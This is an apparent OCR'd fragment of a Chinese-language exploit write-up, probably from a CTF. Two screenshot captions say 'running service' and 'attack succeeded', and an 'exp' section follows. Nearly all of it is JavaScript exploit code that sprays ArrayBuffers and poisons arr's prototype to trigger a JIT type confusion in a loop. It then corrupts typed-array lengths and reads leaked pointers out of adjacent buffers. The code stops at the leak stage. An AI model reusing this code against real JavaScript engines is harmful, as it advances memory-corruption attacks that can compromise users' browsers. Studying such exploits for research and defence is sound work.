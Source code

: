 ![](https://raw.githubusercontent.com/4ak5ra/image/main/20250516000522325.png)         
运行的服务

![](https://raw.githubusercontent.com/4ak5ra/image/main/20250516000532503.png)   

攻击成功
## exp
```javascript

buf = []

buf.push(new ArrayBuffer(0x20));
buf.push(new ArrayBuffer(0x20));
buf.push(new ArrayBuffer(0x20));
buf.push(new ArrayBuffer(0x20));
buf.push(new ArrayBuffer(0x20));
buf.push(new ArrayBuffer(0x20));
buf.push(new ArrayBuffer(0x20));
buf.push(new ArrayBuffer(0x20));
buf.push(new ArrayBuffer(0x20));
buf.push(new ArrayBuffer(0x20));


var abuf = buf[5];

var e = new Uint32Array(abuf);
const arr = [e, e, e, e, e];



function vuln(a1) {



    if (arr.length == 0) {
        arr[3] = e;
    }

    const v11 = arr.pop();


    v11[a1] = 0x80

    for (let v15 = 0; v15 < 100000; v15++) {} 
}


p = [new Uint8Array(abuf), e, e];
arr.__proto__ = p;

for (let v31 = 0; v31 < 2000; v31++) {
    vuln(18);
}


leaker = new Uint8Array(buf[7]);
aa = new Uint8Array(buf[6]);



leak = aa.slice(0x50,0x58); 
group = aa.slice(0x40,0x48); 
```